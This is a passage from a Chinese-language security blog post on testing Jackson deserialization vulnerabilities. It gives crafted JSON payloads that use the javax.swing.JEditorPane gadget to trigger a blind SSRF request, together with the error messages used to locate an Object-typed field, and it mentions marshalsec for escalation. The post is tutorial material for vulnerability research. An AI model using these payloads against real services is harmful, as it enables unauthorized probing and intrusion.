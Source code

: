     Exception in thread "main" com.fasterxml.jackson.databind.exc.UnrecognizedPropertyException: Unrecognized field "aa" (class com.mytest.MySex), not marked as ignorable (one known property: "sex"])  
      
    

继续判断上一层，(4 known properties: “aa”, “name”, “sex”, “age”]

    
    
    String json="{\"age\":10,\"name\":\"test\",\"sex\":{\"sex\":1},\"bb\":2,\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";  
      
    Exception in thread "main" com.fasterxml.jackson.databind.exc.UnrecognizedPropertyException: Unrecognized field "bb" (class com.mytest.People), not marked as ignorable (4 known properties: "aa", "name", "sex", "age"])  
    

由于我们的payload需要使用array，这里我们将name设为[]，可以看到java.lang.String类型，后续一个一个测试。

    
    
    String json="{\"age\":10,\"name\":[],\"sex\":{\"sex\":1},\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";  
      
    Exception in thread "main" com.fasterxml.jackson.databind.exc.MismatchedInputException: Cannot deserialize instance of `java.lang.String` out of START_ARRAY token  
    

当测试到aa时，发现java.lang.Object

    
    
    String json="{\"age\":10,\"name\":\"bbb\",\"sex\":{\"sex\":1},\"aa\":[],\"aab\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";  
      
    Exception in thread "main" com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (END_ARRAY), expected VALUE_STRING: need JSON String that contains type id (for subtype of java.lang.Object)  
    

由于rce payload可能会被拦截，或者确实模块，或者版本问题，这里我们使用一个ssrf的payload来盲测。

    
    
    String json="{\"age\":10,\"name\":\"bbb\",\"sex\":{\"sex\":1},\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";  
    

最终，我们的http
log可以看到请求。发现此处存在漏洞，进一步的利用可以使用marshalsec来利用。测试下来，三种写法下，这个payload的结果一样。

## 总结

jackson的反序列化漏洞利用存在条件，不是直接一顿盲测就可以的。只有清楚判断条件之后，才明白为什么会是这样的返回。需要找到java.lang.Object的property才可以。

– 那今天挖到jackson反序列化漏洞了吗？

– 我不知道，你说呢？

## 引用

  1. Jackson-反序列化汇总

  2. CVE-2020-8840
